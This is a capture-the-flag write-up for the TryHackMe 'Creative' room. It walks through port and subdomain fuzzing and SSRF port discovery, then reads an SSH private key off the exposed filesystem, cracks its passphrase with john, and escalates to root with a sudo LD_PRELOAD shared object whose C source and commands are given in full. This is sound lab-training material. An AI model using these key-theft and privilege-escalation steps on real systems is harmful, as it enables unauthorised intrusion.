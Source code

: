 ```yaml
---
parent: "[[CTFs - THM]]"
resources:
---
```


```bash
# PLATFORM          . THM
# CTF NAME          . Creative
# DESCRIPTION       . Exploit a vulnerable web application and some misconfigurations to gain root privileges.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/r/room/creative
```

```bash
sudo nmap -sSVC 10.10.51.79 -T5 -p-
```

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 a05c1c4eb486cf589f22f97c543d7e7b (RSA)
|   256 47d5bb58b6c5cce36c0b00bd95d2a0fb (ECDSA)
|_  256 cb7cad3141bb98afcfebe4887f125e89 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://creative.thm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- I added the `creative.thm` entry in `/etc/hosts` file.

```
10.10.51.79    creative.thm
```

- I then went to access the website and took a look at the source code. 
- Some hrefs were pointing to `assets` and `vendors` but I didn't have access to those endpoints.

- I decided against fuzzing for endpoints to see if there are any other.

```
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://creative.thm/FUZZ
```

- I did the same for `/assets` directory, but with no luck.

- Then I've decided to FUZZ for subdomains.

```
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.creative.thm" -u http://creative.thm -fc 301
```

```
{redacted}         [Status: 200, Size: 591, Words: 91, Lines: 20]
```

- After wasting quite some time here, I decided that since I cannot make it get files from my device, I should start focusing on the server itself.

- Accessing `http://localhost:80` worked (as expected), but other ports showed as `dead`. 

- However, there are 65536 ports, so let's start fuzzing :) 

- I did this in burp using the Intruder tab and setting the payload to `numbers` from 1-65535.
- However, this method is VERY slow, but I had to leave home for couple of hours and I hoped it'll find something before the room timer would expire.

- All response page length was 184 bytes, but one of them had 1316 bytes in length.
- By navigating to that port, I found the entire filesystem exposed to the webserver.

- We can access files by navigating to `http://localhost:PORT/path/to/file`.

- You can already get the `user.txt` flag by accessing `http://localhost:PORT/home/saad/user.txt`

- Another thing I did was to go from directory to directory to enumerate for a while and I found `saad`'s private SSH key in `/home/saad/.ssh/id_rsa`.

```
ssh -i id_rsa saad@10.10.51.79
Enter passphrase for key 'id_rsa':
```

- To crack this, I've used `john`.

```
python3 /opt/john/run/ssh2john.py id_rsa > john
```

```
/opt/john/run/john john --wordlist=/usr/share/wordlists/rockyou.txt
```

- After finding out the passphase, I SSHed to the box using

```
ssh -i id_rsa saad@creative.thm
```

- I was able to find the password for `saad` in `.bash_history` file.

```
echo "saad:MyStr{REDACTED}et$4291" > creds.txt
```

- Having that, I could run `sudo -l`

```
User saad may run the following commands on m4lware:
    (root) /usr/bin/ping
```

- This wouldn't be of much help by itself, but look what else is used on the system

```
env_keep+=LD_PRELOAD
```

- **LD_PRELOAD** is an environment variable that lists shared libraries with functions that override the standard set. 

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
	void _init() {
		unsetenv("LD_PRELOAD");
		setgid(0);
		setuid(0);
		system("/bin/sh");
	}
```

- Complile this on the VICTIM machine using

```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

- Then, execute any **sudo** command specifying the malicious **LD_PRELOAD** file first.

```
sudo LD_PRELOAD=/tmp/test.so /usr/bin/ping
```

```
sudo LD_PRELOAD=/home/saad/secret.so /usr/bin/ping
# whoami
root
```

